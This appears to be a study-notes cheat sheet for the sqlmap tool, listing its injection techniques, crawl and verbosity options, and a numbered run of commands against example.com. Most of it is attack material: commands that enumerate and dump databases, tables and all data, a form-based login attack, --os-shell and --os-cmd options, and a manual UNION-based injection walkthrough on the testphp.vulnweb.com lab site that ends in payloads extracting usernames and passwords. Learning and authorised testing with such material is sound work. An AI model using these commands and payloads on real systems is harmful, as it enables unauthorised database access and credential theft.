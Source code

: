 # SQLmap
 SQL is a standard language for accessing and manipulating databases.
     SQL stands for Structured Query Language
    SQL lets you access and manipulate databases
    SQL became a standard of the American National Standards Institute (ANSI) in 1986, and of the International Organization for Standardization (ISO) in 1987
 
# Overview 

- Techniques     |     -u        
- Crawl         |     --forms
- Enumeration   |     --data
- Batch         |     --headers
- Risk          |     --user-agent
- Level         |     --cookie
- Threads       |     --flush-session
- Verbosity     |     --output-dir
- Proxy         |     --tamper
- SQL Injection Via Burp-Suite

# Techniques 

* B: Boolean-based blind
* E: Error-based
* U: Union query-based
* S: Stacked queries 
* T: Time-based blind
* Q: Inline queries 
   --technique-"B"

# Crawl

* Depth 1: http://www.example.com/news
* Depth 2: http://www.example.com/news/newest/
* Depth 3: http://www.example.com/news/newest/terror/
* Depth 4: http://www.example.com/news/newest/terror/country/
     --crawl 3
     
# Verbosity
* 0: show only python tracebacks, error and critical messages.
* 1: show also information and warning messages.
* 2: show also debug messages.
* 3: show also payloads injected.
* 4: show also HTTP requests.
* 5: show also HTTP responses'headers.
* 6: show also HTTP responses'page content
     
# Kali linux   ( command ) 

1.  sqlmap -u http://www.example.com/ --crawl 2 
2.  sqlmap -u http://www.example.com/ --crawl 3 --batch 
3.  sqlmap -u http://www.example.com/ --crawl 3 --technigue="U"                ( U = union )
4.  sqlmap -u http://www.example.com/ --crawl 2 --batch --threads 5            ( 1 to 10 )
5.  sqlmap -u http://www.example.com/ --crawl 2 --batch --risk 2               ( 1 to 3 )
6.  sqlmap -u http://www.example.com/ --crawl 2 --batch --level 1              ( 1 to 5 )
7.  sqlmap -u http://www.example.com/ --crawl 3 --batch -v 4                   ( 0 to 6 )
8.  sqlmap -u http://www.example.com/listproducts.php?cat=? --current-user --current-db --hostname --batch     ( vulnerable website link )
9.  sqlmap -u http://www.example.com/listproducts.php?cat=? --dbs              ( all data base details )
10. sqlmap -u http://www.example.com/listproducts.php?cat=? -D ( avl. database name ) --tables 
11. sqlmap -u http://www.example.com/listproducts.php?cat=? -D ( avl. database name ) -T ( avl. tables name ) --dump
12. sqlmap -u http://www.example.com/listproducts.php?cat=? -D ( avl. database name ) -T ( avl. tables name ) --columns 
13. sqlmap -u http://www.example.com/listproducts.php?cat=? -D ( avl. database name ) --dump-all
14. sqlmap -u http://www.example.com/ --crawl 2 --output-dir="home/ghost/desktop/sql/" --batch
15. sqlmap -u http://www.example.com/ --crawl 2 --headers="Referer:abc.com" -v 4 --batch
16. sqlmap -u http://www.example.com/ --crawl 2 --user-agent="GECKO_CHROME" -v 4 --batch
17. sqlmap -u http://www.example.com/ --crawl 2 --mobile -v 4 
18. sqlmap --list-tempers
19. sqlmap -u http://www.example.com/ --crawl 2 --tamper=base64encode -v 3 --batch

# BRUTE FORCE LOGIN PAGE
* first we need url of login page 
* than we need username && password && login we need to find the value of username , password , login [ by using inspect ].
* for eg username value is going with uname && password value is going with pass && login value is going with submit.
* also we need to check the username && password && login case value is going with userinfo.php 
* sqlmap -u http://www.example.com/login.php --forms         (next step first cat the sql save data)
* sqlmap -u http://www.example.com/userinfo.php --data="uname=abc&pass=abc&login=submit" --dbs

# PROXY
* sqlmap -u http://www.example.com/ --crawl 2 --proxy="127.0.0.1:8080"      ( then go to burp suite )

# Highlights
* --cookie
* --flush-session
* --comment
* --os-shell
* --os-cmd

# Manually 
1. http://testphp.vulnweb.com/
2. http://testphp.vulnweb.com/listproducts.php?cat=1'           ( we use malicious payload )
3. http://testphp.vulnweb.com/listproducts.php?cat=1 order by 11--+
4. http://testphp.vulnweb.com/listproducts.php?cat=1 union select 1,2,3,4,5,6,7,8,9,10,11--+
5. http://testphp.vulnweb.com/listproducts.php?cat=1 union select 1,database(),3,4,5,6,7,8,9,10,11--+
6. http://testphp.vulnweb.com/listproducts.php?cat=1 union select 1,database(),3,4,5,6,7,8,version(),10,11--+
7. http://testphp.vulnweb.com/listproducts.php?cat=1 union select 1,database(),3,4,5,6,table_name,8,version(),10,11 from information_schema.tables--+
8. http://testphp.vulnweb.com/listproducts.php?cat=1 union select 1,database(),3,4,5,6,column_name,8,version(),10,11 from information_schema.columns where table_name="users"--+
9. http://testphp.vulnweb.com/listproducts.php?cat=1 union select 1,database(),3,4,5,6,group_concat(uname,pass),8,version(),10,11 from users--+


eg :-)

' union select username, password from users--+






